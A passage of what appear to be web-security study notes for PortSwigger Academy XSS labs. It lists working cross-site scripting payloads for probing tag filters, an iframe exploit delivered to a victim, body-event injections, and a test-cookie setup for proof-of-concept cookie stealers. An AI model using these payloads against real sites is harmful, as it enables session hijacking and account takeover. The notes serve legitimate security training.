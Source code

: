 + [CSP Evaluator](https://csp-evaluator.withgoogle.com/)  
  
>When input field maximum length is at only 23 character in length then use this resource for **Tiny XSS Payloads**.  

+ [Tiny XSS Payloads](https://github.com/terjanq/Tiny-XSS-Payloads)  

>Set a unsecured test cookie in browser using browser DEV tools console to use during tests for POC XSS cookie stealer payloads.  

```JavaScript
document.cookie = "TopSecret=UnsecureCookieValue4Peanut2019";
```  
  
### Identify allowed Tags  

>Basic XSS Payloads to ***identify*** application security filter controls for handling data received in HTTP request.  

```html
<img src=1 onerror=alert(1)>
```  

```html
"><svg><animatetransform onbegin=alert(1)>
```  

```
<>\'\"<script>{{7*7}}$(alert(1)}"-prompt(69)-"fuzzer
```  

>Submitting the above payloads may give response message, ***"Tag is not allowed"***. Then ***identify*** allowed tags using [PortSwigger Academy Methodology](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked).  

>URL and Base64 online encoders and decoders  

+ [URL Decode and Encode](https://www.urldecoder.org/)  
+ [BASE64 Decode and Encode](https://www.base64encode.org/)  
  
>This lab gives great **Methodology** to ***identify*** allowed HTML tags and events for crafting POC XSS.  

>Host **iframe** code on exploit server and deliver exploit link to victim.  

```html
<iframe src="https://TARGET.net/?search=%22%3E%3Cbody%20onpopstate=print()%3E">  
```  

[PortSwigger Lab: Reflected XSS into HTML context with most tags and attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked)  

>In below sample the tag **Body** and event **onresize** is the only allowed, providing an injection to perform XSS.  

```JavaScript
?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```  

>This example show the **Body** and event **onpopstate** is not blocked.  
  